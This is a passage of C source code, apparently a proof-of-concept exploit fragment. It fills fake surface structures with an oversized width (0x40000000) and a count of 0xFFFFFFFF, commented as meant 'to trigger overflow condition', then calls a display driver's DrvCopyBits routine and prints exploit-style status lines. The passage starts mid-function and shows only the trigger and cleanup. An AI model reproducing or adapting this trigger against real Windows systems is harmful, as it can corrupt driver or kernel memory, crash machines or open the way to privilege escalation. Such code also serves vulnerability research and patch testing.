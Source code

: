 ```c
    *(uint64_t *)(ctx + 0x10) = (uint64_t)inner;

    *(int *)(inner + 0x128) = 0;

    *(uint64_t *)(ctx + 0x30) = 0;
    *(uint64_t *)(ctx + 0x38) = 0;
    *(uint64_t *)(ctx + 0x438) = 0;

    memset(surf2, 0, 0x10);

    // Set up surface structure to trigger overflow condition
    uint32_t width  = 0x40000000;  // Large width for overflow
    uint32_t height = 8;

    *(uint32_t *)(surf1 + 0x20) = width;
    *(uint32_t *)(surf1 + 0x24) = height;
    *(uint32_t *)(surf1 + 0x28) = 0xFFFFFFFF; // Large count value
    *(uint64_t *)(surf1 + 0x30) = (uint64_t)pixels;
    *(uint32_t *)(surf1 + 0x48) = 1;

    RECTL dst_rect = {0, 0, 64, 64};
    POINTL src_point = {0, 0};

    printf("[*] Triggering pixel transform with width=0x%x height=0x%x (may overflow)\n", width, height);
    printf("[*] Calling PFN_DrvCopyBits...\n");

    ULONG result = PFN_DrvCopyBits(
        (PVOID)ctx,       // psoTrg (destination surface)
        (PVOID)surf1,     // psoSrc (source surface)
        NULL,             // pco null for no clipping..
        (PVOID)surf2,     // pxlo (color translation - must be non-NULL)
        &dst_rect,        // prclTrg (destination rectangle)
        &src_point        // pptlSrc
    );

    printf("[+] PFN_DrvCopyBits returned: 0x%lu\n", result);

cleanup:
    // release all the allocations
    if (ctx)    VirtualFree(ctx,    0, MEM_RELEASE);
    if (inner)  VirtualFree(inner,  0, MEM_RELEASE);
    if (surf1)  VirtualFree(surf1,  0, MEM_RELEASE);
    if (surf2)  VirtualFree(surf2,  0, MEM_RELEASE);
    if (pixels) VirtualFree(pixels, 0, MEM_RELEASE);
    if (base) FreeLibrary(base);

    return 0;
}
```
